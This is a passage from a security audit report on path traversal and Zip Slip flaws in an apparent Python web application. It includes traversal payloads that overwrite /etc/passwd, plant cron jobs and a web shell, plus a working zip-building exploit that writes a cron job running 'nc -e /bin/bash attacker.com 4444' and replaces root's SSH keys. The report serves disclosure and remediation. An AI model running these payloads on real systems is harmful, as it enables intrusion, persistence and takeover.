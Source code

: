 #### Attack Scenarios:
1. **Overwrite System Files:**
   ```python
   # POST /api/upload
   folder = "../../../../etc/"
   file.filename = "passwd"
   # Overwrites /etc/passwd
   ```

2. **Cron Job Injection:**
   ```python
   folder = "../../../../etc/cron.d/"
   # Upload malicious cron job for persistence
   ```

3. **Web Shell Deployment:**
   ```python
   folder = "../../../../var/www/html/"
   file.filename = "shell.php"
   # Deploy web shell to web root
   ```

---

### 3. Zip Slip Vulnerability

**Vulnerability Type:** Arbitrary File Write via Archive Extraction  
**Severity:** **CRITICAL**  
**CVSS 3.1 Score:** 9.0 (Critical)  
**CWE ID:** CWE-22  

#### Location Details:
- **Function:** `restore_backup()`
- **Line Number:** 243
- **Vulnerable Code:**
```python
with zipfile.ZipFile(backup_path, 'r') as zipf:
    zipf.extractall(restore_path)  # No path validation
```

#### Exploit Creation:
```python
import zipfile

# Create malicious zip
with zipfile.ZipFile('evil.zip', 'w') as zf:
    # Escape to root directory
    zf.writestr('../../../../etc/cron.d/backdoor', 
                '* * * * * root nc -e /bin/bash attacker.com 4444')
    # Overwrite SSH authorized_keys
    zf.writestr('../../../../root/.ssh/authorized_keys',
                'ssh-rsa ATTACKER_KEY')
```

#### Impact:
- **Arbitrary file creation** anywhere on filesystem
- **System configuration modification**
- **Backdoor installation**
- **Complete system compromise**

---